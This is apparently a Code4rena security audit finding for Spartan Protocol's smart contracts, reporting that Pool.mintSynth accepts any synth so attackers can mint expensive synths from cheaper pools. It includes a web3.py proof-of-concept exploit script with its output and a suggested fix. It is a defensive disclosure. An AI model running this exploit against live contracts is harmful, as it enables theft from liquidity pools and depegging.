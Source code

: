 ## Tags

- bug
- 3 (High Risk)
- sponsor confirmed

# [arbitrary synth mint/burn from pool](https://github.com/code-423n4/2021-07-spartan-findings/issues/20) 

# Handle

jonah1005


# Vulnerability details

## Impact
`Pool` can mint arbitrary `Sythn` provided as long as it's a valid synth. When there are multiple curated pools and synth (which the protocol is designed for), hackers can mint expensive synthetics from a cheaper AMM pool. The hacker can burn the minted synth at the expensive pool and get profit. The arbitrage profit can be amplified with flash loan services and break all the pegs.

## Proof of Concept
Pool's mintSynth logic:
https://github.com/code-423n4/2021-07-spartan/blob/main/contracts/Pool.sol#L229-L242

Synth's mintSynth logic:
https://github.com/code-423n4/2021-07-spartan/blob/e2555aab44d9760fdd640df9095b7235b70f035e/contracts/Synth.sol#L165-L171

Synth's authorization logic:
https://github.com/code-423n4/2021-07-spartan/blob/e2555aab44d9760fdd640df9095b7235b70f035e/contracts/Pool.sol#L229-L242


The price of the synthetics to be mint is calculated in `Pool` based on the AMM price of the current Pool


Here's a web3.py script of minting arbitrary Synth in a pool.
For simplicity, two pools are set with the assumption that link is 10x expensive than dai.

```python
sparta_amount = 100 * 10**18
initail_link_synth = link_synth.functions.balanceOf(user).call()
base.functions.transfer(link_pool.address, sparta_amount).transact({'from': user})
link_pool.functions.mintSynth(link_synth.address, user).transact({'from': user})
after_link_synth = link_synth.functions.balanceOf(user).call()

print('get link synth amount from link pool:', after_link_synth - initail_link_synth)

sparta_amount = 100 * 10**18
initail_link_synth = link_synth.functions.balanceOf(user).call()
base.functions.transfer(dai_pool.address, sparta_amount).transact({'from': user})
dai_pool.functions.mintSynth(link_synth.address, user).transact({'from': user})
after_link_synth = link_synth.functions.balanceOf(user).call()

print('get link synth amount from dai pool:', after_link_synth - initail_link_synth)

```

The log of the above script
```
get link synth amount from link pool: 97078046905036524413
get link synth amount from dai pool: 970780469050365244136
```
## Tools Used

Hardhat

## Recommended Mitigation Steps
Checks the provided synth's underlying token in `mintSynth`
 `require(iSYNTH(synthOut).LayerONE() == TOKEN, "invalid synth");`



